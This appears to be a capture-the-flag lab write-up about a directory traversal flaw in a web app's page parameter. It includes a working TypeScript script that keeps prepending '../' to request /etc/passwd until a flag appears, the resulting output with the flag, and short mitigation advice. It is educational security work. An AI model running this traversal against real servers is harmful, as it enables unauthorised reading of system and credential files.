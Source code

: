 # Directoy traversal breach

## How we found the breach

Sources:

[portswigger →](https://portswigger.net/web-security/file-path-traversal)

[owasp →](https://owasp.org/www-community/attacks/Path_Traversal#:~:text=Cookie%3A%20TEMPLATE%3D../../../../../../../../../etc/passwd)

[infosecinstitute →](https://resources.infosecinstitute.com/topic/php-lab-file-inclusion-attacks/)

From the website's home page, after pressing the `Sign In` button we're redirected to `http://IP/?page=signin`.

Depending on how the server handles the params parsing we could pass filename containing absolute paths to other file from the server file system.

A commonly hacked sensitive file is the `/etc/passwd` containing a trace of every computer registered user.

[More information on /etc/passwd →](https://www.ibm.com/docs/bg/aix/7.2?topic=passwords-using-etcpasswd-file)

### Testing the /etc/passwd access

By hitting `http://IP/?page=signin` the server returns a page displaying an alert modal containing the label `WTF`

```html
<script>alert('Wtf ?');</script><!DOCTYPE HTML>
<html>
	<head>
		<title>BornToSec - Web Section</title>
		<meta http-equiv="content-type" content="text/html; charset=utf-8" />
		<meta name="description" content="" />
		<meta name="keywords" content="" />
		<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
		<script src="js/jquery.min.js"></script>
		<script src="js/skel.min.js"></script>
		<script src="js/skel-layers.min.js"></script>
		<script 
```

We can see that the server append a script tag on the beginning of the page.

We need to dig deeper, considering that the served page could be located recursively anywhere in folders.

The required file path could have infinite number of `..`, this is why we'll need to code a small tool.

### The script

The following script will download the returned page for any `../etc/passwd` combination until he found within the first script tag the string `flag`. 

Note: This script assumes that the server will send back the flag in the first script tag, and even more that the flag will be displayed using the `flag` appellation.

```ts
// @ts-check
import got from 'got'
import * as cheerio from 'cheerio'

const searchedFile = `/etc/passwd`
const baseUrl = `http://192.168.56.101/?page=`

async function traverseDirectory(query) {

    const url = baseUrl + query;
    const htmlPage = await got(url).text()

    const $ = cheerio.load(htmlPage)
    const firstScriptTag = $('script').first().text();

    if (firstScriptTag.match(/flag/)) {
        console.log(firstScriptTag)
        return
    } else {
        console.log(firstScriptTag)
        const newQuery = `../${query}`
        return traverseDirectory(newQuery)
    }
}

await traverseDirectory(searchedFile)
```
By running the script we get the below output:

```bash
node script.js 

alert('Wtf ?');
alert('Wtf ?');
alert('Wrong..');
alert('Nope..');
alert('Almost.');
alert('Still nope..');
alert('Nope..');
alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');
```

## How to exploit the breach

By being able to browse the server file system the hacker could steal any kind of sensitive information.
He could also be able to execute previously uploaded script inside the server file tree

[See file upload breach →](../../php_script_as_jpg_metadata_file_upload_breach/Ressources/Explanations.md)

## How to avoid the breach

To avoid this breach is kinda the same thing as for the [Redirect security breach](../../mocking_referer_and_user_agent_curl_breach/Ressources/Explanations.md). The server should not be passing user-supplied input to the filesystem.

Either if it's necessary the server should be validating the input, using a `whitelist` `escaping` the received path.